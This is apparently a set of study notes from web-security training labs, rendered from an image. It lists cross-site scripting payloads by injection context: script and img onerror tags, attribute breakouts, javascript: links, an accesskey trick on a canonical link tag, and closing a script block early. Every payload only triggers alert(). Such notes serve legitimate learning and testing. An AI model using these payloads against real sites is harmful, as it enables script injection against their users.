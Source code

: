 # Between HTML tags
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

# XSS in HTML tag attributes
```html
"><script>alert(document.domain)</script>
```

```html
" autofocus onfocus=alert(document.domain) x="
```

```html
<a href="javascript:alert(document.domain)">
```
##### Using `accesskey` to invoke some JS code placed in a attribute of `canonical` tag.
Final payload:
```
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
How it looks in DOM:
```html
<link rel="canonical" href="https://0ace00fb0457e86f80a1210c00d900da.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
```

# XSS into JavaScript
##### Terminating the existing script
```js
<script>
...
var input = 'controllable data here';
...
</script>
```
Payload:
```html
</script><img src=1 onerror=alert(document.domain)>
```


